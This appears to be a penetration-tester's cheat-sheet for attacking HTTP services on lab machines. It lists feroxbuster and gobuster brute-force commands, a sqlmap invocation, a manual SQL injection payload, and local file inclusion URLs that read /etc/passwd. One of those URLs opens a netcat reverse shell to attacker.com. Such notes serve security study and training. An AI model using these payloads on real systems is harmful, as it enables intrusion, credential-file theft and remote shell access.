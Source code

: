 ```yaml
---
title: Port 80 - HTTP
draft: false
tags:
  - http
  - directory-bruteforce
  - wappalyzer
  - subdomain-bruteforce
  - lfi
  - sqli
---
```

## Directory Bruteforce

Perform directory bruteforce as such:

`sudo feroxbuster -u http://10.10.10.84 -n -x php -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

![](https://i.imgur.com/lzQ8C4L.png)


Check what extensions webpage is using by accessing such file as **index.php** or **index.html**.

Set appropriate extension with **-x** flag.

When on Windows machine -> Use lower case directory list.

When on IIS machine -> Use IIS specific wordlist.

## Subdomain Bruteforce

Perform Subdomain bruteforcing and add newly discovered subdomains to **/etc/hosts**:

`gobuster vhost -u http://analytical.htb --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -o gobuster-vhost`


## SQLi

### SQLmap

`sqlmap -r admin-cronos-htb-login-req.txt --batch`

![](https://i.imgur.com/cZPXbyU.png)


### Manual Testing

Example:

```sql
' or 1=1-- -
```
## LFI

`http://10.10.10.84/browse.php?file=../../../../../../../etc/passwd`

![](https://i.imgur.com/0bnt99B.png)

### Examples

```
http://example.com/index.php?page=/etc/passwd&cmd=id
http://example.com/index.php?page=/var/log/apache/access.log&cmd=nc%20-e%20/bin/bash%20attacker.com%204444
http://example.com/index.php?page=php://input&cmd=cat%20/etc/passwd
```
